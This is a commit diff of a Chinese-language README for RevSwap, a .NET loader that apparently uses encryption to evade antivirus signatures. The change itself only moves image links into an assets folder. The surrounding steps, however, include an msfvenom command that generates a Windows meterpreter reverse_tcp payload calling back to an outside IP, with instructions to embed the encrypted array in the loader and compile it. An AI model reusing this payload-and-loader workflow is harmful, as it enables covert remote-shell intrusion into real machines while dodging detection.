

Before and after one commit to RasAlGhul-1/MirageShell, a Markdown page: RevShell-Swap/README.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/RevShell-Swap/README.md
+++ b/RevShell-Swap/README.md
@@ -90,12 +90,12 @@ RevSwap 是一个轻量级 .NET 动态加载器，通过加密与特征码定位
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=17.17.17.17 LPORT=8738 -f csharp
    ```
 
-   ![image](../image-20260610175842-f0ofkwg.png)
+   ![image](../assets/image-20260610175842-f0ofkwg.png)
 
-   ![image](../image-20260610175915-srrihsf.png)
+   ![image](../assets/image-20260610175915-srrihsf.png)
 2. 将数组替换到对应 `.cs` 文件的 `enc` 变量中。
 
-   ![image](../image-20260610180009-oos7vfy.png)
+   ![image](../assets/image-20260610180009-oos7vfy.png)
 3. 使用 Visual Studio 开发者命令提示符编译（注意平台）：
 
    ```
````
Also changed, not shown: other parts of RevShell-Swap/README.md (+1 -1 lines).
